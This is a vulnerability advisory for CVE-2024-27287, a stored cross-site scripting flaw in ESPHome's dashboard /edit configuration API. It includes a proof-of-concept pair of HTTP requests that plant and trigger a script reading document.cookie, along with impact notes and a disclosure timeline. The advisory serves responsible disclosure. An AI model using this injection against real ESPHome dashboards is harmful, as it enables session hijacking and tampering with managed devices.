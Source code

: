 # Cross-site scripting (stored) in edit configuration file API (CVE-2024-27287) #

## Summary
Edit configuration file API in dashboard component of ESPHome version 2023.12.9 (command line installation and Home Assistant add-on) serves unsanitized data with "Content-Type: text/html; charset=UTF-8", allowing remote authenticated user to inject arbitrary web scripts (XSS).

## Affected products
* ESPHome versions >= 2023.12.9, < 2024.2.2

## Details
It is possible for a malicious authenticated user to inject arbitrary Javascript in configuration files using a POST request to the `/edit` endpoint, the configuration parameter allows to specify the file to write.

To trigger the XSS vulnerability, an authenticated victim must visit the page `/edit?configuration=[xss file]`.

## PoC
To reproduce the issue, it is possible to perform a POST request to inject the payload:

Request:

```
POST /edit?configuration=xss.yaml HTTP/1.1
Host: localhost:6052
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:6052/
Connection: close
Cookie: authenticated=[replace with valid cookie]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Length: 40

<script>alert(document.cookie);</script>
```

Which triggers a positive response:

```
HTTP/1.1 200 OK
Server: TornadoServer/6.3.3
Content-Type: text/html; charset=UTF-8
Date: Thu, 30 Nov 2023 11:02:27 GMT
Content-Length: 0
Connection: close
```

Subsequently it is possible to trigger the XSS with a GET request to the same endpoint:

```
GET /edit?configuration=xss.yaml HTTP/1.1
Host: localhost:6052
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:6052/
Connection: close
Cookie: authenticated=[replace with valid cookie]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Length: 0
```

Response:
```
HTTP/1.1 200 OK
Server: TornadoServer/6.3.3
Content-Type: text/html; charset=UTF-8
Date: Thu, 30 Nov 2023 11:04:12 GMT
Etag: "ec6c9889f5c9a6c8e9d2d5e4ce1b1a85e6e7da2b"
Content-Length: 40
Connection: close

<script>alert(document.cookie);</script>
```

## Impact
By abusing this vulnerability, a malicious actor could perform operations on the dashboard on the behalf of a logged user, access sensitive information, create, edit and delete configuration files and flash firmware on managed boards.
In addition to this, cookies are not correctly secured, allowing the exfiltration of session cookie values.

## Additional information

### Credit
Spike Reply Cybersecurity Team

### Acknowledgments
Thanks to ESPHome developers for their support with the disclosure of this issue.

### References
- https://nvd.nist.gov/vuln/detail/CVE-2024-27287
- https://github.com/esphome/esphome/security/advisories/GHSA-9p43-hj5j-96h5

### Disclosure timeline

- February 20, 2024: Initial vendor contact
- February 28, 2024: Patch proposed by ESPHome
- February 28, 2024: Spike Reply Cybersecurity Team confirms that security fixes included in patched version are effective
- March 5, 2024: Disclosure
